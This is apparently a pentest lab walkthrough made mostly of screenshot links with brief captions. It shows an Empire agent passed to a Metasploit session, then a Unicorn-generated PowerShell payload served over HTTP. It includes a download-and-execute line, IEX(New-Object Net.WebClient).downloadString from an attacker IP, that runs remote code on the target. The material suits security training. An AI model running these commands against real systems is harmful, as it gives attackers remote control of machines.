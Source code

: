 ![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556872339190_image.png)

Empire, injectshellcode with 32bit change Port and Host

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556872402582_image.png)

back and interact with agent

    injectcode meterpreter1 2992 info

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556872469550_image.png)

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556872631247_image.png)

*set LPORT as 8002*

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556872717215_image.png)

Successful response back to metasploit:

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556872744436_image.png)

interact with session 3

    sessions -i 3

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556872788873_image.png)

    help

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556872815110_image.png)

*still don’t have the standard api but we can attempt to load it manually.*

    load stdapi

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556872850761_image.png)

*msf at this point crashes*

## unicorn for the full stdapi
pivots to unicorn and an output code called `powershell_attack.txt`

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556872908875_image.png)

send this file to our target with a simplehttpserver.

    cp /opt/unicorn/powershell_attack.txt .

Empire, head back and use command “shell” which performs powershell commands.

    shell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/powershell_attack.txt')

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556873133164_image.png)

connection is established:
